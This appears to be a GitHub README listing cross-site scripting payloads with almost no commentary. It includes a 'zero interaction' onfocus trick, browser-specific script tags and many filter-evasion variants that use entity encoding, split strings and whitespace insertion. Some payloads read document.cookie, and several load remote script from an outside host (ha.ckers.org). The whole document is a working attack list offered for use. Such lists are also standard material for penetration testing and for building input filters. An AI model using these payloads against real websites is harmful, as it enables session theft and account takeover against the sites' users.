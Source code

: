 # XSS-Payload
XSS all Payload

" onfocus="alert(1)" name="bounty
(Append #bounty to the URL and enjoy your zero interaction XSS )

<svg/onload=location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`;//

# Internet Explorer, Edge
<svg><script>alert(1)<p>

# Firefox

<svg><x><script>alert(1)</x>

# Common

'';!--"<XSS>=&{()}

<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>

<IMG SRC="javascript:alert('XSS');">

<IMG SRC=javascript:alert('XSS')>

<IMG SRC=JaVaScRiPt:alert('XSS')>

<IMG SRC=javascript:alert("XSS")>

<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>

<a onmouseover="alert(document.cookie)">xxs link</a>

<a onmouseover=alert(document.cookie)>xxs link</a>

<IMG """><SCRIPT>alert("XSS")</SCRIPT>">

<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

<IMG SRC=# onmouseover="alert('xxs')">

<IMG SRC= onmouseover="alert('xxs')">

<IMG onmouseover="alert('xxs')">

<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>

<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;
&#39;&#88;&#83;&#83;&#39;&#41;>

<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&
#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>

<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>

<IMG SRC="jav	ascript:alert('XSS');">

<IMG SRC="jav&#x09;ascript:alert('XSS');">

<IMG SRC="jav&#x0A;ascript:alert('XSS');">

<IMG SRC="jav&#x0D;ascript:alert('XSS');">

<IMG SRC=" &#14;  javascript:alert('XSS');">

<SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT>

<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>

<SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>

<<SCRIPT>alert("XSS");//<</SCRIPT>

<SCRIPT SRC=http://ha.ckers.org/xss.js?< B >

<SCRIPT SRC=//ha.ckers.org/.j>

<IMG SRC="javascript:alert('XSS')"

<iframe src=http://ha.ckers.org/scriptlet.html <

\";alert('XSS');//



</TITLE><SCRIPT>alert("XSS");</SCRIPT>


<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">

<BODY BACKGROUND="javascript:alert('XSS')">

<IMG DYNSRC="javascript:alert('XSS')">

<IMG LOWSRC="javascript:alert('XSS')">

<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>

<IMG SRC='vbscript:msgbox("XSS")'>

<IMG SRC="livescript:[code]">

<BODY ONLOAD=alert('XSS')>
